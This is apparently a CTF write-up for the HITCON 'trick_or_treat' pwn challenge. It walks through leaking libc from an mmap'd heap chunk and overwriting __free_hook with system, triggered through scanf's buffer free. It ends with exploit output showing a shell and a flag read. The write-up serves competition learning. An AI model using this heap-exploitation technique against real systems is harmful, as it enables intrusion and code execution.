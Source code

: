 The binary is very simple. It can malloc arbitrary size of chunk and leak heap address. Besides, user can overwrite memory twice:

```c
int main() {
    // ...
    __isoc99_scanf("%lu", &size);
    v7 = malloc(size);
    if ( v7 ) {
        printf("Magic:%p\n", v7);
        for ( i = 0; i <= 1; ++i ) {
            write(1, "Offset & Value:", 0x10uLL);
            __isoc99_scanf("%lx %lx", &v5, &v6);
            v7[v5] = v6; // QWORD!
        }
    }
    _exit(0);
}
```

Glibc may use mmap to allocate heap memory if the request chunk size is sufficient large enough. For example, if user request to allocate 16M heap memory, the proc map may look like this:

```
gdb-peda$ vmmap
Start              End                Perm      Name
0x0000558dc78ea000 0x0000558dc78ec000 r-xp      /ctf/asterisk_alloc
0x0000558dc7aeb000 0x0000558dc7aec000 r--p      /ctf/asterisk_alloc
0x0000558dc7aec000 0x0000558dc7aed000 rw-p      /ctf/asterisk_alloc
0x0000558dc8dbd000 0x0000558dc8dde000 rw-p      [heap]
0x00007f07f3621000 0x00007f07f3808000 r-xp      /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f07f3808000 0x00007f07f3a08000 ---p      /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f07f3a08000 0x00007f07f3a0c000 r--p      /lib/x86_64-linux-gnu/libc-2.27.so
0x00007f07f3a0c000 0x00007f07f3a0e000 rw-p      /lib/x86_64-linux-gnu/libc-2.27.so
...
```

Libc base address is leaked because heap memory is just below the libc base: `libc_base = heap_addr + request_size + 0x1000 - 0x10`.

Also, `scanf("%lx %lx")` filters out non-hex character from input. After realizing none of one gadgets are useful for `__malloc_hook` or `__free_hook`, overwriting `system` to `__free_hook` seems to be a promising idea as scanf only frees scratch buffer at the end. As a result, input `'c'*0x400 + ' ed'` triggers `system('ed')` and lead to flag (thanks to b2xiao and jarsp):

```
[+] Opening connection to 3.112.41.140 on port 56746: Done
[*] heap_addr = 0x7fb3a11da010
[*] libc_addr = 0x7fb3a21db000
[*] free_hook = 0x7fb3a25c88e8
[*] Switching to interactive mode
$ !/bin/sh
$ whoami
trick_or_treat
$ cat /home/trick_or_treat/flag
hitcon{T1is_i5_th3_c4ndy_for_yoU}
[*] Got EOF while reading in interactive
```
